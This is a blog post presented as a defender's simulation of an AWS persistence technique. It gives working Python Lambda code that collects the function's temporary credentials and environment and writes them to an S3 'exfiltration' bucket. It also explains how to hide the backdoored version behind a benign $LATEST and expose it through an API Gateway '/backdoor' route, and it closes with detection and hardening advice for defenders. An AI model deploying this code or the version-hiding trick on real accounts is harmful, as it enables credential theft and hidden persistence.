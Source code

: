 ```yaml
---
title: Stealthy Persistence in AWS - A Practical Simulation for Defenders
date: 2025-06-27
author: Sergio Jimenez
tags:
  - backdoor
  - persistence
  - lambda 
---
```


-----

## Stealthy Persistence in AWS: A Practical Simulation for Defenders

In the world of cloud cybersecurity, attackers are always innovating. As defenders, it's crucial not only to understand attack techniques but also to **simulate them to strengthen our own defenses**. Recently, an analysis from Datadog and insights from a security analyst Eduard Agavriloae  shed light on a particularly cunning persistence technique in AWS: the use of **API Gateway and Lambda Functions for credential exfiltration**, with a "twist" that makes it even harder to detect.

This article breaks down how an attacker might implement this technique and, more importantly, **how we can simulate it in our own environment** to fine-tune our detection and prevention capabilities.

-----

### The Technique in Detail: API Gateway + Lambda for Credential Exfiltration

Datadog's original idea involved a compromised Lambda creating new IAM users for persistence. However, the "twist" that interests us is the **exfiltration of credentials from the Lambda's own execution environment (`/proc/self/environ`)**. This is stealthier because an attacker can use these exfiltrated credentials to operate from their own infrastructure, avoiding detections associated with creating new users (a highly monitored API call).

Persistence is achieved by linking this "malicious" Lambda to an **API Gateway**, creating a web entry point that the attacker can invoke at will. The subtlety is amplified by **Lambda versioning**: an attacker could deploy a "benign" version of the function as `$LATEST` (the one administrators typically check), while the "backdoored" version (with the exfiltration code) is explicitly invoked by its version number, thus remaining hidden from superficial inspections.

-----

### Setting Up the Attack Scenario: Step-by-Step Simulation

To understand and defend ourselves, we'll replicate this technique in a controlled AWS environment.

#### 1\. Preparing the AWS Ground

Before we start, security is key. Don't use your `root` account or an administrator user.

  * **Test IAM User:** Create an IAM user with the minimum necessary permissions to **create Lambda functions, API Gateways, and IAM roles**. This simulates an initial compromise with limited privileges.
  * **S3 Bucket for the "Catch":** You'll need an **S3 bucket** where the "malicious" Lambda will deposit the exfiltrated credentials. Ensure the bucket policy only allows writes from the IAM role your Lambda will assume.

#### 2\. The "Malicious" Lambda: Code and Role

This is the heart of our simulated attack. This function will read environment variables, which in Lambda include temporary credentials.

  * **Lambda Python Code:**

    ```python
    import os
    import json
    import boto3

    def lambda_handler(event, context):
        try:
            # Read environment variables, which in Lambda include temporary credentials
            environ_data = os.environ # os.environ is already a dict, no need to read from /proc/self/environ directly here for this purpose.

            # Extract specific credentials (if they exist)
            aws_access_key_id = environ_data.get('AWS_ACCESS_KEY_ID', 'N/A')
            aws_secret_access_key = environ_data.get('AWS_SECRET_ACCESS_KEY', 'N/A')
            aws_session_token = environ_data.get('AWS_SESSION_TOKEN', 'N/A')
            
            exfiltrated_data = {
                "lambda_name": context.function_name,
                "aws_access_key_id": aws_access_key_id,
                "aws_secret_access_key": aws_secret_access_key,
                "aws_session_token": aws_session_token,
                "full_environ": dict(environ_data) # Convert to dict for JSON serialization
            }

            # Send data to S3
            s3_bucket_name = "your-exfiltration-bucket" # IMPORTANT: Change this to your bucket name!
            s3_key = f"exfiltrated-creds/{context.aws_request_id}.json"
            s3_client = boto3.client('s3')
            s3_client.put_object(
                Bucket=s3_bucket_name,
                Key=s3_key,
                Body=json.dumps(exfiltrated_data, indent=4)
            )

            print(f"Credentials exfiltrated and saved to s3://{s3_bucket_name}/{s3_key}")
            
            return {
                'statusCode': 200,
                'body': json.dumps('Data exfiltrated successfully!')
            }
        except Exception as e:
            print(f"Error during exfiltration: {e}")
            return {
                'statusCode': 500,
                'body': json.dumps(f'Error during exfiltration: {str(e)}')
            }
    ```

  * **Lambda Execution Role (IAM Role):** This role must have permissions for:

      * `lambda:InvokeFunction`
      * `s3:PutObject` in *your* exfiltration bucket.
      * Basic **CloudWatch Logs** permissions (`logs:CreateLogGroup`, `logs:CreateLogStream`, `logs:PutLogEvents`).

#### 3\. The API Gateway Deception

The API Gateway is the public facade the attacker will use.

  * **Create HTTP API:** In the API Gateway console, create a simple **HTTP API**.
  * **Resource and Method:** Define a resource (e.g., `/backdoor`) and an HTTP method (e.g., `GET`).
  * **Lambda Integration:** Connect this method to your Lambda function. Ensure API Gateway has the permissions to invoke it.

#### 4\. The Key to Stealth: Lambda Versions

This is where the attacker's ingenuity comes in.

  * **"$LATEST" Version (Benign):** Upload a "clean" version of your Lambda that does something innocuous (e.g., "Hello World"). This will be the one pointed to by the `$LATEST` alias.
  * **"Backdoored" Version (Malicious):** Now, **update your Lambda's code with the credential exfiltration script**. Publish a **new version** of this function (e.g., `v2`). The key is that the attacker will explicitly invoke `arn:aws:lambda:region:account-id:function:MyFunction:v2`, while your security team might only be checking `$LATEST`.

#### 5\. Time to Invoke the Backdoor\!

  * **"Normal" Invocation:** Access the API Gateway URL without specifying a version. It should execute the `$LATEST` (benign) version.
  * **"Malicious" Invocation:** The attacker will invoke the function by specifying the backdoored version in the ARN. For example: `arn:aws:lambda:us-east-1:123456789012:function:MyFunction:v2`. After execution, you should find a JSON file with the exfiltrated credentials in your S3 bucket.

-----

### Defense and Detection: Hardening Your Environment

Once you've simulated the attack, it's time to put on your "Blue Team" hat and strengthen your defenses.

#### Monitoring and Detection (Red Flags)

  * **AWS CloudTrail:** Your best friend.
      * **Resource Creation/Modification:** Look for events like `CreateFunction`, `UpdateFunctionCode`, `PublishVersion` (for Lambdas) or `CreateRestApi`, `CreateResource`, `PUT_INTEGRATION` (for API Gateway). **Abnormalities in these events are red flags.**
      * **Exfiltration:** Monitor `PutObject` in S3, especially if you don't expect a Lambda to write to a specific bucket.
      * **Use of Exfiltrated Credentials:** `AssumeRole` or `GetFederationToken` events from **unusual IPs** or with **suspicious credentials** (the exfiltrated ones) are critical.
  * **CloudWatch Lambda Logs:** Set up alerts for execution errors or unusual patterns in your function logs. If the malicious Lambda tries to write to S3 unsuccessfully (thanks to strict policies\!), your logs will tell you.
  * **Amazon GuardDuty:** Enable it. It detects malicious activity, including unusual credential usage, communications with suspicious IPs, and exfiltration attempts.
  * **Lambda Version Monitoring:** **Crucial for this attack.** Don't just limit yourself to `$LATEST`. Use CloudWatch Lambda metrics to see **invocations by version**. If an old or "inactive" version suddenly shows invocation activity, investigate\!
  * **AWS Security Hub:** Centralizes security findings from all your services, giving you a holistic view.

#### Prevention (Blue Fortress)

  * **Principle of Least Privilege:** The golden rule. Grant your Lambdas only the absolutely necessary permissions. If a Lambda doesn't need to write to S3, don't give it `s3:PutObject` permissions\!
  * **Code Review and Secure CI/CD:** Implement security scanning (SAST) in your CI/CD pipelines to detect malicious code or vulnerabilities before deployment. Conduct regular code reviews.
  * **Credential Management:** Rotate credentials frequently and **never hardcode credentials in your code**. Leverage IAM roles and temporary credentials that Lambda already provides.
  * **API Gateway Configuration:**
      * Restric access with **Authorizers** (Lambda Authorizers, Cognito, IAM).
      * Use **AWS WAF** to protect your API Gateway from common attacks.
  * **Network Security (VPC):** If feasible, place your Lambdas inside a VPC to control network traffic more granularly with Security Groups and NACLs.
  * **AWS Organizations SCPs:** If you use AWS Organizations, Service Control Policies (SCPs) can prevent dangerous actions at the account level, acting as an additional barrier.
  * **Offensive Mindset:** Finally, and perhaps most importantly, cultivate an **offensive mindset** within your team. Understanding how attackers think and operate will enable you to build more robust and proactive defenses.

-----

Simulating these sophisticated persistence techniques isn't just a technical exercise; it's an invaluable investment in your ability to protect your AWS environments. By understanding the "how" of the attack, you'll be much better equipped to build the "how" of your defense.


-----
Sources:
- https://www.linkedin.com/in/eduard-k-agavriloae/
- https://securitylabs.datadoghq.com/articles/tales-from-the-cloud-trenches-the-attacker-doth-persist-too-much/
